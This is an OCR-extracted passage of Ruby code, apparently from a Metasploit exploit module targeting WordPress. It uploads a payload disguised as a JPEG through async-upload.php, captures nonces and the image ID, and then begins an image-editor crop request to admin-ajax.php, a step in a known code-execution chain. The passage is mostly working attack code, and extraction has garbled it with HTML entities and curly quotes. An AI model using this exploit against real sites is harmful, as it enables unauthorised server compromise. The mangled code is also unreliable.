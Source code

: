 post_data &lt;&lt; "\r\nupload-attachment\r\n"
post_data &lt;&lt; "--#{boundary}\r\n"
post_data &lt;&lt; "Content-Disposition: form-data; name=\"_wpnonce\"\r\n"
post_data &lt;&lt; "\r\n#{wp_nonce}\r\n"
post_data &lt;&lt; "--#{boundary}\r\n"
post_data &lt;&lt; "Content-Disposition: form-data; name=\"async-upload\"; filename=\"#{img_name}\"\r\n"
post_data &lt;&lt; "Content-Type: image/jpeg\r\n"
post_data &lt;&lt; "\r\n#{img_data}\r\n"
post_data &lt;&lt; "--#{boundary}--\r\n"
print_status("Uploading payload")
upload_uri = normalize_uri(datastore['TARGETURI'], 'wp-admin', 'async-upload.php')

res = send_request_cgi(
  'method'   =&gt; 'POST',
  'uri'      =&gt; upload_uri,
  'ctype'    =&gt; "multipart/form-data; boundary=#{boundary}",
  'data'     =&gt; post_data,
  'cookie'   =&gt; cookie
)
fail_with(Failure::UnexpectedReply, 'Unable to upload image') unless res &amp;&amp; res.code == 200 &amp;&amp; res.body &amp;&amp; !res.body.empty?
print_good("Image uploaded")
res = JSON.parse(res.body)
image_id = res["data"]["id"]
update_nonce = res["data"]["nonces"]["update"]
filename = res["data"]["filename"]
return filename, image_id, update_nonce 
```

end

def image_editor(img_name, ajax_nonce, image_id, cookie)

uri = normalize_uri(datastore[‘TARGETURI’], ‘wp-admin’, ‘admin-ajax.php’)

res = send_request_cgi(

‘method’    => ‘POST’,

‘uri’       => uri,

‘cookie’ => cookie,

‘vars_post’  => {

‘action’ => ‘image-editor’,

‘_ajax_nonce’ => ajax_nonce,

‘postid’ => image_id,

‘history’ => ‘[{“c”:{“x”:0,“y”:0,“w”:400,“h”:300}}]’,

‘target’ => ‘all’,

‘context’ => ‘’,

‘do’ => ‘save’

}

)

```